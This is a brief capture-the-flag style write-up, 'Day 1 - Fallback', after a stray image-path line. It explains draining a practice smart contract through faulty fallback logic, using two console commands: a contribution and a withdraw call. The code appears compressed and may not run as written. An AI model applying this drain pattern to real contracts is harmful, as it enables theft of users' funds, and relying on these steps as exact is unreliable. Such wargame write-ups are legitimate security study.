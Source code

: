 # Day 1 - Fallback

Abusing erroneous logic between contract functions and fallback function.

```sol
await contract.contribute().sendTransaction({value: 0.005});
await contract.withdraw();
```
